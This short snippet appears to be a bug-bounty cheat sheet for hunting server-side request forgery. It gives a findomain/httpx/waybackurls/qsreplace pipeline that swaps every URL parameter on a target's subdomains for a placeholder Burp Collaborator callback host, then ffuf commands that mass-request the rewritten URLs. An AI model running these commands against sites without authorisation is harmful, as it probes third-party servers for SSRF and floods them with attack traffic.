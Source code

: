 ## In this case I'm using [Findomain](https://github.com/Findomain/Findomain)

```sh
findomain -t hackerone.com -q | httpx -silent -threads 1000 | waybackurls |  grep = | qsreplace http://YOUR.burpcollaborator.net | tee ssrf.txt
```

## FFUF
```sh
ffuf -w ssrf.txt:FUZZ -u FUZZ -mc 200
```

```sh
ffuf -u FUZZ -w ssrf.txt:FUZZ -replay-proxy http://127.0.0.1:8080 -mc 200
```
